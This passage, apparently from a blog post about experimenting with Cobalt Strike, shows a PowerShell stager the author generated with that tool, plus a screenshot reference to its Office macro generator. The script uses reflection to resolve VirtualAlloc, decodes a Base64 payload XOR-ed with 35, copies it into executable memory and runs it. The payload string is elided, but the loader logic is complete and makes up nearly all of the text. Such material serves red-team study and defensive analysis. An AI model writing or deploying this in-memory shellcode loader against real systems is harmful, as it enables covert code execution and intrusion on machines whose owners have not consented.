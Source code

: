 ![Screenshot of Cobalt Strike MS Office Macro Generator](/media/playing-with-cobalt-strike-7.png)

## PowerShell Script

Using the same listener, I generated the following PowerShell script in Cobalt Strike.


```powershell
Set-StrictMode -Version 2

function func_get_proc_address {
        Param ($var_module, $var_procedure)
        $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
        return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
                [Parameter(Position = 1)] [Type] $var_return_type = [Void]
        )

        $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
        $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

        return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('<VERY long Base64 string>')
        for ($x = 0; $x -lt $var_code.Count; $x++) {
                $var_code[$x] = $var_code[$x] -bxor 35
        }

        $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        $var_runme.Invoke([IntPtr]::Zero)
}
```
